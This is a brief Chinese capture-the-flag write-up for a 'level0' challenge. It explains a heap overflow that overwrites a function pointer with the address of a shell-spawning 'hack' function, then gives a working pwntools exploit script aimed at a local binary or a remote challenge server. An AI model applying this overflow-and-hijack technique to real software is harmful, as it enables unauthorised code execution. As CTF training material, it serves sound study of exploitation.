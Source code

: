 # level0

### 思路  
+ 注意到有一个hack函数可以拿shell
+ 程序大体逻辑是malloc两个块，一个是buf,一个是v4。其中v4接收8个bytes,作为一个函数指针传给v5后执行
+ 由于buf块只有20,读100个bytes可以溢出到v4。 将v4覆盖成hack地址即可
+ 使用gdb调试查看buf和v4的相对地址

###exp
```python
from pwn import *
context.log_level="debug"
pwn_file="./level0-welcome"
elf=ELF(pwn_file)

if len(sys.argv)==1:
    r=process(pwn_file)
    pid=r.pid
else:
    r=remote("pwn.sixstars.team",22500)
    pid=0

def debug():
    log.debug("process pid:%d"%pid)
    pause()

hack = 0x40075E
payload = 'a'*(0x20) + p64(hack)
r.sendline(payload)

r.interactive()
```
